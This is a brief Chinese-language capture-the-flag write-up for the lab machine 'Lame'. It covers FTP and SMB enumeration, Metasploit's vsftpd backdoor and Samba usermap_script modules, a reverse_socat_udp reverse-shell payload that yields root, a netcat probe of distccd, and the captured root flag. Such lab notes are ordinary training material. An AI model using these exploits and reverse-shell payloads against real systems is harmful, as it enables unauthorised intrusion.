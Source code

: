 # Lame

> victim: 10.10.10.3
>
> local: 10.10.14.9

通过扫描结果，可以推测出目标大致为Ubuntu系统

## FTP (21)

可以匿名登录，但没有文件

vsftpd 2.3.4

版本低，EDB找到：https://www.exploit-db.com/exploits/17491

```
exploit/unix/ftp/vsftpd_234_backdoor
```

失败

## SMB (139&445)

```bash
smbclient -L 10.10.10.3 -U "guest"%''
```

```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

3.0.20-Debian 低版本，EDB找到：https://www.exploit-db.com/exploits/16320

```rb
exploit/multi/samba/usermap_script
```

```shell
set payload cmd/unix/reverse_socat_udp
```

直接就是root，秒了

## distccd(3632)

一个非常见协议，应该着重关注

尝试直接连接

```
nc 10.10.10.3 3632
```
## root.txt
```
92caac3be140ef409e45721348a4e9df
```

